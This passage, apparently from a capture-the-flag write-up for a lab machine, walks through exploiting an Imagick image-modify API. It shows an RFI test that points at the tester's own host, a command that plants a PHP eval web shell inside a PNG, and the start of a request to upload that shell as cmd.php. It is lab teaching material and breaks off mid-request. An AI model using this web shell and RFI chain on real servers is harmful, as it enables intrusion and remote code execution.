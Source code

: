 ```http
Referer: http://10.129.19.213/admin
Cookie: XSRF-TOKEN=eyJpdiI6IjloNURXNUpRQUNCb2tyUThhZDV1ZGc9PSIsInZhbHVlIjoiYUJZYVRmMVhHUEUwTS9FZk43eTF2TlpPY0tocEJnZlZnbFU2YnZCTDBNZlNqWmlYYmRvcjFPYWxiNEJkSXlLUjVkbEFWcHNuYnhOSFlsZExCTGw4eUhBUTJVR3RiVmxyQ2NDMGVzRDdXeVRzMmlOZmsxaXhVSnRSQXYyNWJhWEEiLCJtYWMiOiIzNjBlMTE1ZWExYjQwMzYwZGU2MDgyYWY2M2VhZDdmMzU3ZWEzOTNmMzcyNzVlMWJiNmEyMDYzY2UyMWI0ODg5IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Ik5LS0x5UjJucUJ3aTdLYVphdnFUQUE9PSIsInZhbHVlIjoiajhNNWNmVFRpUDZqMkROU3VVbUdGZUtLd3ZGeWVjcGxzcmNhUXlnOTlldnJVaUJuZDJYSE9wd1BNU0RmTS84T1pDdndpQ2lTZ3E3em1RZ2x3cFluRDRyWU51d0M4ZlB4Qk80VUFQV0N6Y2RyK3pQTVVha1hJZHg0cXFHMm10TDMiLCJtYWMiOiI4NTU1NmEzNDg2ZTYyNzBiODExNWRlMzA3Mjc5Zjk5YzAyODU0MmViZmMzNzdhNTA2YTEyOTE3Yjg3ZWZmMmIzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzg1MywiZXhwIjoxNjg4NDE1NDUzLCJuYmYiOjE2ODgzOTM4NTMsImp0aSI6IkFFcXROUHlMR25wNU1NZUMiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.3l-LRqW9Z1cf_Ewny0HOPdXtJhz-kk6cxKwje29dVUw



{"path":"/var/www/html/intentions/storage/app/public/animals/ashlee-w-wv36v9TGNBw-unsplash.jpg","effect":"wave"}
```
{% endcode %}

Googling for Imagick PHP exploits led me to this page showing an RCE:

{% embed url="https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/" %}

The above exploit uses an RFI to load some PHP objects for RCE. We can test this with the website:

```json
{"path":"http://10.10.14.64/hiiamrfi","effect":"wave"}
```

<figure><img src="../../.gitbook/assets/image (2924).png" alt=""><figcaption></figcaption></figure>

Since this was vulnerable to RFI, there's a high chance that it is vulnerable to the exploit above. We can follow the PoC to make it work. Firstly, we need to create a reverse shell payload within an image.&#x20;

```
$ convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positive.png
```

Host this image on a HTTP server, and now comes the tricky part of uploading it (which involves some brute forcing). There seem to be 2 payloads involved in this:

* One involving `vid:ms1:/tmp/php*`.
* One with the form-data uploading `positive.png` to the server as `cmd.php`.&#x20;

To start this, we can follow the PoC and use Burp Intruder to do send a lot of requests. Here's the first request:

```http
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.129.19.213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/json
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzc1NCwiZXhwIjoxNjg4NDE1MzU0LCJuYmYiOjE2ODgzOTM3NTQsImp0aSI6IjJFU1NGWHA5Sno4VVh1Y1EiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.TXkEvefZecbOrVTbd20__gfPgBcKwvyFO-bEcq5HCo4
Content-Length: 306
Connection: close

{
```